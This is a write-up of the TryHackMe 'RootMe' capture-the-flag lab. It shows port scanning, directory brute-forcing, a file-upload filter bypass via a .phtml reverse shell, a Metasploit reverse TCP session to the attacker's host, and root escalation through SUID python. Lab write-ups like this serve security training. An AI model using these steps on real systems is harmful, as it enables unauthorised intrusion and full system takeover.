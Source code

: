 ```yaml
---
title: "TryHackMe - RootMe"
categories:
  - Writeup
tags:
  - linux
  - writeup
  - tryhackme
  - hacking
  - escalation
  - ctf
---
```

A ctf for beginners, can you root me?

## Reconnaissance
First, i started `rustscan` with `aggressive` mode.
```bash
$ rustscan -a 10.10.194.71 -- -A 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.194.71:22
Open 10.10.194.71:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-13 00:32 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
Initiating Ping Scan at 00:32
Scanning 10.10.194.71 [2 ports]
Completed Ping Scan at 00:32, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:32
Completed Parallel DNS resolution of 1 host. at 00:32, 13.01s elapsed
DNS resolution of 1 IPs took 13.01s. Mode: Async [#: 1, OK: 0, NX: 0, DR: 1, SF: 0, TR: 3, CN: 0]
Initiating Connect Scan at 00:32
Scanning 10.10.194.71 [2 ports]
Discovered open port 80/tcp on 10.10.194.71
Discovered open port 22/tcp on 10.10.194.71
Completed Connect Scan at 00:32, 0.19s elapsed (2 total ports)
Initiating Service scan at 00:32
Scanning 2 services on 10.10.194.71
Completed Service scan at 00:32, 6.41s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.194.71.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 5.71s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.76s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
Nmap scan report for 10.10.194.71
Host is up, received syn-ack (0.19s latency).
Scanned at 2021-01-13 00:32:13 EST for 27s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
There's only 2 ports are open! SSH and HTTP.

Let's run `gobuster` to find something on the website.
```bash
$ gobuster dir -u 10.10.194.71 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,jpg,html,css,jpeg,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.194.71
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,jpg,html,css,jpeg,txt
[+] Timeout:        10s
===============================================================
2021/01/13 01:16:31 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
```

There's `/panel` directory, interesting, let's check what it is.

## Getting a shell
We got a upload functionality. 
<a href="/assets/images/tryhackme/rootme/1.png"><img src="/assets/images/tryhackme/rootme/1.png"></a>

Let's try to upload our reverse shell.
<a href="/assets/images/tryhackme/rootme/2.png"><img src="/assets/images/tryhackme/rootme/2.png"></a>

We can't upload a `.php` extension, let's figure it out how to bypass it. After i tried couple times, we can change the extension to `.phtml` to bypass this.
<a href="/assets/images/tryhackme/rootme/3.png"><img src="/assets/images/tryhackme/rootme/3.png"></a>

Set up our listener and go to the file we uploaded before at [here](http://10.10.194.71/uploads/shell.phtml).
```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > set LHOST 10.11.25.205
LHOST => 10.11.25.205
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.25.205:9999 
[*] Sending stage (36 bytes) to 10.10.194.71
[*] Command shell session 1 opened (10.11.25.205:9999 -> 10.10.194.71:54424) at 2021-01-13 01:40:29 -0500

$ whoami
www-data
```

Upgrade our shell to meterpreter.
```bash
msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.11.25.205:4433 
[*] Sending stage (976712 bytes) to 10.10.194.71
[*] Meterpreter session 2 opened (10.11.25.205:4433 -> 10.10.194.71:59394) at 2021-01-13 01:41:23 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```

User.txt:
```bash
meterpreter > shell
Process 13446 created.
Channel 68 created.
www-data@rootme:/$ export TERM=xterm
www-data@rootme:/$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$ cat /var/www/user.txt
THM{REDACTED}
```

## Privilege escalation
Let's see for SUID permission.
```bash
www-data@rootme:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...
```

There is `python` there, we can abuse it. Let's escalate via `python` SUID.
```bash
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

whoami
root
```

root.txt:
```bash
cat /root/root.txt
THM{REDACTED}
```